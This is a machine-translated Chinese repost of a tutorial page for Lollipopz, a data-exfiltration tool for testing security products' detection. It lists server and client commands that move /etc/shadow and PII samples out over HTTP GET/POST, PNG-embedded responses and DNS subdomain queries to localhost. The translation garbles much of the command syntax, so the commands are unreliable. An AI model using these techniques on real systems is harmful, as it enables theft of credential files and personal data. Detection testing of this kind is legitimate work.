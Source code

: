 # Lollipopz:用于测试检测能力的数据过滤工具

> 原文：<https://kalilinuxtutorials.com/lollipopz/>

[![Lollipopz : Data Exfiltration Utility For Testing Detection Capabilities](img//e5a7a0ba96ba8a6d5d100bc4bef91f0a.png "Lollipopz : Data Exfiltration Utility For Testing Detection Capabilities")](https://1.bp.blogspot.com/-DVg_hQE9CMA/XpsOiS_GUNI/AAAAAAAAF9Y/MNJu6EWSoHUAhZpGdI-_PGH2PV2Sh9b5gCLcBGAsYHQ/s1600/Data%2BExfiltration%25281%2529.png)

**Lollipopz** 是一个用于测试检测能力的数据过滤工具。用于测试安全产品检测能力的数据过滤实用程序。显然只是为了法律目的。

如何渗透？

**/etc/shadow - > HTTP GET 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。GETClient-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**/etc/shadow - > HTTP POST 请求**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。POSTServer -lp 80 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . param _ cipher。post client-RH 127 . 0 . 0 . 1-RP 80-I ./samples/shadow . txt-r**

**也可阅读-[尾巴:保护你隐私的活系统&匿名](https://kalilinuxtutorials.com/tails-live-system-to-preserve-your-privacy-anonymity/)**

**PII - >嵌入在 HTTP 响应中的 PNG**

*   **服务器**

**$。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。Server -lp 37650 -o output.log**

*   **客户端**

**#。/lollipopz-CLI . py-m lollipopz . methods . http . image _ response。客户端-RH 127 . 0 . 0 . 1-RP 37650-LP 80-I ./samples/pii . txt-r**

**PII - > DNS 子域名查询**

*   **服务器**

**#。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。Server -lp 53 -o output.log**

*   **客户端**

**$。/lollipopz-CLI . py-m lollipopz . methods . DNS . subdomain _ cipher。客户端-RH 127 . 0 . 0 . 1-RP 53-I ./samples/pii . txt-r**

[**Download**](https://github.com/tasooshi/lollipopz)